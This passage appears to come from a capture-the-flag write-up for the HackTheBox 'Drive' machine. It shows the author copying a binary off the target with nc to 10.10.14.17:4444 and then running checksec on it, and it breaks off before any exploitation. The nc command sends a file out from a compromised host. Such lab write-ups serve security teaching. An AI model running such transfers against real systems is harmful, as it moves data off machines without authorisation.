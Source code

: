 The next part of this machine was glaringly obvious.

![](../../.gitbook/assets/htb-drive-image-11.png)

Some reverse engineering or pwn challenge is up next. First, I transferred this binary back to my machine via `nc`.

```bash
# as tom
nc -w 3 10.10.14.17 4444 < doodleGrive-cli

# as kali
nc -l -p 4444 > doodleGrive-cli
```

I ran a `checksec` first to see what protections this thing had:

```
gdb-peda$ checksec
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

There's a stack canary, but oddly there's no ASLR enabled. Testing it with a huge input shows an error:
